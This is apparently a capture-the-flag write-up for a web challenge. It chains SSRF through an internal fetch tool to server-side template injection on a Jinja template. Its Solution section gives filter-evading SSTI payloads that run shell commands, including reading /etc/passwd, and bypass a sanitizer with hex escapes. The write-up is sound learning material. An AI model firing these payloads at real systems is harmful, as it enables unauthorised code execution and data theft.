 #### Web Forge
- points earned: TBD 

#### Notes
- The first thing I checked was robots.txt which shows `/admin` and `/fetch`. It also shares some intel, `# internal SSRF testing tool requires special auth header to be set to 'true'`.
- `/admin` returns a `403 - FORBIDDEN`
- `/fetch` also returns a `403 - FORBIDDEN` but also contains `403 Forbidden: missing or incorrect SSRF access header` in its response body.
- So at this point it would seem that I need to discover a request header and set it to true in order to access `/fetch`
- I manually tried a few headers that I could think of but none would let me into `fetch`.
- Eventually I ended up trying `fuff` to check against a list of headers and found that `Allow: true` was the one I was looking for. (lol because I didn't guess this)
- Now that I have access on `fetch` and it appears to be a tool that will send web requests for me, I want to try and use it to access `/admin`.
- Trying `http://127.0.0.1/admin` results in the below output
    ```
    HTTPConnectionPool(host='127.0.0.1', port=80): Max retries exceeded with url: / (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7989bc777ac0>: Failed to establish a new connection: [Errno 111] Connection refused'))
    ```
- I see `Connection refused` which makes me think there's no server where I tried to send the request.
- Perhaps a different port?  I manually tried a bunch of standard ports (3000, 5000, etc) and eventually got a different response for port 8000. That response contained a helpful error `Missing template parameter`.
- Trying `http://127.0.0.1:8000/admin?template=meow` now gives me a response without errors and reflects my input, `meow`, into the response
- After some messing around with this, I started to wonder if the parameter name `template` was hinting that this input is being used in a template.
- I then tried `http://127.0.0.1:8000/admin?template={{4*4}}` which returned a response which contained `16` and confirms SSTI.

#### Solution
- I used the following payload, which I had in my notes, to confirm RCE.
    ```python
    {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /etc/passwd')|attr('read')()}}
    ```
- I used the following payload to list the contents of the current directory and could see `flag.txt` was in there.
```python
http://127.0.0.1:8000/admin?template={{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -l')|attr('read')()}}
```
- I then tried `cat flag.txt` to read the flag but got a response `Nope` which feels like it was caught by a sanatizer.
- Then I just tried obfuscating the `.` in `flag.txt` with `\x2e` and the flag was returned.  Final payload below.
```python
http://127.0.0.1:8000/admin?template={{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag\x2etxt')|attr('read')()}}
```